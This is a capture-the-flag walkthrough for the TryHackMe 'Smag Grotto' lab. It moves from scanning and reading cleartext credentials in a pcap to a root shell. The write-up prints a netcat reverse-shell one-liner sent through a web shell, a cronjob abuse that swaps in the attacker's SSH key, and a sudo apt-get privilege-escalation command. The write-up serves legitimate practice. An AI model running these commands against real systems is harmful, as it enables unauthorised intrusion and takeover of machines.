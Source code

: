 # Smag Grotto  
![alt text](https://i.imgur.com/Hf7abh7.png)   
TryHackMe Easy [Room](https://tryhackme.com/room/smaggrotto)

## Nmap Scan
We will discover port 22 and 80 are open.   
```bash
PORT      STATE    SERVICE        REASON      VERSION
22/tcp    open     ssh            syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDORe0Df8XvRlc3MvkqhpqAX5/sbUoEiIckKSVOLJVmWb9jOq2r0AfjaYAAZzgH9RThlwbzjGj6r4yBsXrMFB01qemsYBzUkut9Q12P+uly9+SeL6X7CUavLnkcAz0bzkqQpIFLG9HUyu9ysmZqE1Xo6NumtNh3Bf4H1BbS+cRntagn1TreTWJUiT+s7Gr9KEIH7rQUM8jX/eD/zNTKMN9Ib6/TM7TkPxAnOSw5JRfTV/oC8fFGqvjcAMxlhqS44AL/ZziI50OrCX9rMKtjZuvPaW2U31Sr8nUmtd3jnJPjMH2ZRfeRTPybYOblPOZq5lV2Fu4TwF/xOv2OrACLDxj5
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN6hWP9VGah8N9DAM3Kb0OZlIEttMMjf+PXwLWfHf0dz6OtdbrEjblgrck0i7fT95F1qdRJHtBdEu5yg4r6/gkY=
|   256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPWHQ800Vx/X5aGSIDdpkEuKgFDxnjak46F/IsegN2Ju
80/tcp    open     http           syn-ack     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
```

## Web Enum
- Gobuster 
By running gobuster we will find `/mail` directory
    ```bash
    =====================================================
    Gobuster v2.0.1              OJ Reeves (@TheColonial)
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://smag.thm/
    [+] Threads      : 10
    [+] Wordlist     : /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
    [+] Status codes : 200,204,301,302,307,403
    [+] Timeout      : 10s
    =====================================================
    2020/07/30 10:18:48 Starting gobuster
    =====================================================
    /mail (Status: 301)
    ```
Going to `/mail` will give us access to a conversation that includes a `.pcap` file.   
- The page
![alt text](https://i.imgur.com/Hf7abh7.png)   

## Wireshark
Taking a good look at the traffic, we can find an HTTP Post request to development.smag.thm/login.php. In the packet, we can see the username and pass in clear text.   
![alt text](https://i.imgur.com/mysFlTm.png)   
with the credential, we can go to `development.smag.thm` and try to get access to `/admin.php`.   


## Getting In
Add development.smag.thm to your `/etc/hosts` and access it through browser.   
- /etc/hosts
    ```bash
    127.0.0.1	localhost
    127.0.1.1	reza-HP-Spectre
    172.16.122.129	hekerendonesa
    10.10.228.117	smag.thm	development.smag.thm
    10.10.70.17	windcorp.thm	fire.windcorp.thm
    172.16.122.130	nugroho-server
    ```
- Acessing `development.smag.thm`   
![alt text](https://i.imgur.com/2rWGPce.png)   
log in with credential we get from the `.pcap` file and we will be redirected to `admin.php`   
![alt text](https://i.imgur.com/3lUPoZp.png)   
Here we have a web shell that will not print out the output of the command, so we can just execute a reverse shell command   
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> <PORT> >/tmp/f`   
And we will have access to the machine as `www-data`   
![alt text](https://i.imgur.com/QDnuKv9.png)

## Getting Access to Jake
- Enum
I tried to use [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to find Priv Esc vector and found that there is an interesting cronjob.   
    ```bash
    SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
    
    # m h dom mon dow user	command
    17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
    25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    *  *    * * *   root	/bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys <--- We can abuse this
    ```
from that, we know that we can change the content of `/opt/.backups/jake_id_rsa.pub.backup` from jake's public key to our public key.   
After changing that, we can access jake's account with no password.   
![alt text](https://i.imgur.com/WgpnqsN.png)   

## Getting to Root
From the moment i get access to user `jake`, the first thing i tried is to check jake's sudo cprivilege with the command `sudo -l`.  
And here's what i got 
```bash
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```
So just go to GTFOBins and find `apt-get`   
![alt text](https://i.imgur.com/qd1AJlB.png)   
Just run `sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh` and you will get root shell.   
![alt text](https://i.imgur.com/4dXK1YU.png)

# HAPPY HACKING!!!
